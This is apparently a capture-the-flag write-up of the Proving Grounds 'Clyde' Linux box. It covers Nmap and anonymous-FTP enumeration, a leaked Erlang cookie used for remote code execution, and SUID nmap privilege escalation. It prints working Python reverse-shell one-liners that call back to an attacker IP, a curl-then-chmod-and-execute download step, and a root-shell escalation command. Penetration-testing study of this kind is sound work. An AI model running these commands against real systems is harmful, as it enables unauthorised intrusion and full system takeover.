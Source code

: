 ```yaml
---
layout: post
title: Proving Grounds - Clyde (Hard)
---
```


# Introduction 

This is an Hard Linux box on Proving Grounds.

# Enumeration

Immediately when we begin to enumerate this box we can see a massive amount of data is available to us on an FTP server. It looks like the `/bin/` directory is being served over FTP.

```bash
$ sudo nmap --min-rate 100 -sV -sC -T4  192.168.216.68 -oA nmap/versions                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 12:13 EDT
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 12:14 (0:00:08 remaining)
Nmap scan report for ip-192-168-216-68.eu-west-1.compute.internal (192.168.216.68)
Host is up (0.022s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 PackageKit
| drwxr-xr-x    5 ftp      ftp          4096 Apr 24  2020 apache2
| drwxr-xr-x    5 ftp      ftp          4096 Sep 21  2020 apt
| drwxr-xr-x    2 ftp      ftp          4096 Apr 22  2020 dbus
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 dhcp
| drwxr-xr-x    7 ftp      ftp          4096 Sep 21  2020 dpkg
| drwxr-xr-x    2 ftp      ftp          4096 Apr 20  2020 git
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 initramfs-tools
| drwxr-xr-x    2 ftp      ftp          4096 May 07  2020 logrotate
| drwxr-xr-x    2 ftp      ftp          4096 Sep 08  2019 misc
| drwxr-xr-x    5 ftp      ftp          4096 Feb 15 10:01 mysql
| drwxr-xr-x    2 ftp      ftp          4096 Jul 13  2017 os-prober
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 pam
| drwxr-xr-x    4 ftp      ftp          4096 Apr 24  2020 php
| drwx------    3 ftp      ftp          4096 Apr 24  2020 polkit-1
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 python
| drwxr-xr-x    3 ftp      ftp          4096 May 08  2020 rabbitmq
| drwxr-xr-x    2 ftp      ftp          4096 Apr 24  2020 sgml-base
| drwxr-xr-x    6 ftp      ftp          4096 Apr 22  2020 systemd
| drwxr-xr-x    3 ftp      ftp          4096 Apr 30  2020 ucf
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.49.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 df:63:99:a4:cf:79:00:c8:b1:d6:67:97:81:4d:4f:af (RSA)
|   256 bd:9b:35:41:34:a2:5a:4c:fa:1b:9f:f1:36:f3:6a:fd (ECDSA)
|_  256 db:96:ee:8d:29:2b:f4:a3:58:b2:fb:c1:ac:65:92:48 (ED25519)
53/tcp    closed domain
80/tcp    open   http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.25 (Debian)
65000/tcp open   unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.24 seconds
```

Running a further Nmap scan over the full port range we see the RabbitMQ service is running, alongside the Erlang Port Mapper Daemon. On port 15672 the management portal for RabbitMQ is available.

```bash
$ sudo nmap --min-rate 100 -p- -T4  192.168.216.68 -oA nmap/all  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 12:14 EDT
Nmap scan report for ip-192-168-216-68.eu-west-1.compute.internal (192.168.216.68)
Host is up (0.023s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
4369/tcp  open   epmd
15672/tcp open   unknown
65000/tcp open   unknown

PORT      STATE  SERVICE    VERSION
4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 65000
15672/tcp open   http       Cowboy httpd
|_http-title: RabbitMQ Management
|_http-server-header: Cowboy

```

## Webserver

As mentioned on port 15672 we have RabbitMQ.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426121946.png)

Trying default creds `guest:guest` unfortunately does not work (worth a try!).

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426122049.png)

Since we have anonymous FTP access, we can try pulling the `rabbitmq` directory there to search for any config files. These may contain credentials.

```bash
wget -r ftp://anonymous@192.168.216.68/rabbitmq
```

Searching the strings of rabbitmq data files, I found some possible users `seth` and `clyde`. But bruteforcing is not possible as it appears there is an account lock out feature.

After searching for a long time I found an erlang cookie in the rabbitmq directory (always remember to check for hidden files!)

```bash
┌──(kali㉿pm-kali)-[~/…/provingGrounds/clyde/192.168.216.68/rabbitmq]
└─$ ls -la             
total 16
drwxr-xr-x  3 kali kali 4096 Apr 26 12:23 .
drwxr-xr-x 13 kali kali 4096 Apr 26 12:47 ..
-rw-r--r--  1 kali kali   20 Apr 24  2020 .erlang.cookie
drwxr-xr-x  6 kali kali 4096 Apr 26 12:24 mnesia
                                                                                                                          
┌──(kali㉿pm-kali)-[~/…/provingGrounds/clyde/192.168.216.68/rabbitmq]
└─$ cat .erlang.cookie 
JPCGJCAEWHPKKPBXBYYB
```

This can be used to gain RCE via Erlang Port Mapper Daemon. A Python exploit exists for this - [49418 - Erlang Cookie - Remote Code Execution](https://www.exploit-db.com/exploits/49418)

# Initial Access

> Erlang allows distributed Erlang instances to connect and remotely execute commands.
> Nodes are permitted to connect to eachother if they share an authentication cookie,
> this cookie is commonly called ".erlang.cookie"

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426132539.png)


This was awkward to get a reverse shell. Had to put a Python revshell for port 21 in a bash script - curl chmod execute, separately.

```bash
$ cat test2.sh                        
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.216",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sending `curl` first:

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "curl http://192.168.49.216/test2.sh -o test2.sh"
```

Changing mode and executing separately:

```python
TARGET = "192.168.216.68"
PORT = 65000
COOKIE = "JPCGJCAEWHPKKPBXBYYB"
CMD = "chmod +x test2.sh; ./test2.sh"
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220426134224.png)

Alternately we could've sent the reverse shell on its own and escaped the quotes e.g.

```bash
CMD = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.118.6\",15672));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

# Privilege Escalation

Nmap has a SUID bit set but there is no `sudo` on this box...

Looked around a lot but tried the Limited SUID technique to GTFObins and it does vaguely work. Through this we could probably spawn a full reverse shell. But this is enough to grab the root hash.

```bash
echo 'os.execute("/bin/sh")' > test 
nmap --script=test
```

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020230119000719.png)
